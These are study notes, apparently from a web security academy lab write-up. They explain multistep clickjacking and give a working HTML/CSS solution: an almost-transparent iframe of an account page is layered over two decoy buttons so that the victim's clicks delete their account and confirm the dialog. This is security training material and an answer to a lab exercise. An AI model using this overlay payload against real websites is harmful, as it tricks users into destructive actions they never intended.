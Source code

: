 # Multistep clickjacking
- Attacker manipulation of inputs to a target website may necessitate multiple actions. 
- For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. 
- These actions can be implemented by the attacker using multiple divisions or iframes. 
- Such attacks require considerable precision and care from the attacker perspective if they are to be effective and stealthy.

# Lab: Multistep clickjacking
- This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. 
- To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. 
- You will need to use two elements for this lab.
```
<head>
	<style>
		#target_website {
			position:relative;
			width:500px;
			height:500px;
			opacity: 0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
            top: 505px;
            left: 55px
			}
		#decoy_two {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
            top: 305px;
            left: 200px
			}
	</style>
</head>

<body>
	<div id="decoy_website">
        <button>Click Me First</button>
	</div>
	<div id="decoy_two">
        <button>Click Me Next</button>
	</div>
	<iframe id="target_website" src="https://0ad700b304a67fef84df5958008b0059.web-security-academy.net/my-account">
	</iframe>
</body>
```

